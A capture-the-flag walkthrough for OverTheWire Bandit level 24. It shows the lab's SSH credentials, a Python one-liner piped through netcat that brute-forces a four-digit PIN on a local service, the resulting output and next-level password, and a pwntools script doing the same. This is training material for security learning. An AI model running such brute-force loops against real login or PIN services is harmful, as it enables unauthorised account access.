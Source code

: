 # Bandit Level 24

```bash
Username: bandit24
Password: UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
Server:   bandit.labs.overthewire.org
Port:     2220
```

First we need to connect:
```bash
ssh bandit24@bandit.labs.overthewire.org -p2220
```

Just a simple brute-force:
```bash
bandit24@bandit:~$ python -c "for i in range(10000): print 'UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ {:>04}'.format(i)" | nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
Wrong! Please enter the correct pincode. Try again.
...
Correct!
The password of user bandit25 is uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG

Exiting.
```

Easy.

We got the password for the next level: **uNG9O58gUE7snukf3bvZ0rxhtnjzSGzG**

**A single script is (much faster to run the script locally on remote host):**
```python
#!/usr/bin/env python

from pwn import *


def main():
  shell = ssh(host='bandit.labs.overthewire.org',
            user='bandit24',
            password='UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ',
            port=2220
       )

  conn = shell.connect_remote('localhost', 30002)

  print conn.recvline()

  for i in range(10000):
    conn.sendline('{} {:>04}'.format('UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ', i))
    line = conn.recvline()
    print line,

    if 'Wrong' not in line:
      break

if __name__ == "__main__":
  main()
```